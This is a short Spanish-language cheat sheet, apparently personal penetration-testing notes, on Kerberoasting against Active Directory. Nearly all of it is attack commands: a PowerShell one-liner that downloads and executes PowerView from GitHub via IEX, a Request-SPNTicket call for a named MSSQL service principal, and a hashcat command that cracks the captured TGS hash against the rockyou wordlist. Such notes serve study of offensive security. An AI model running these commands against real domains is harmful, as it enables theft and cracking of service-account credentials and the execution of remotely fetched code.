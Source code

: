# Kerberoasting 

Tags: #AD #Kerberoasting #Powershell #PowerView #HashCat 

## Obtener Hash con PowerView

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');

❯ Request-SPNTicket -SPN "MSSQL/sql.domain1.corp"

Nota:
	1. Conocer el SPN enumerando el usuario 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 hash-kerberoasting /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```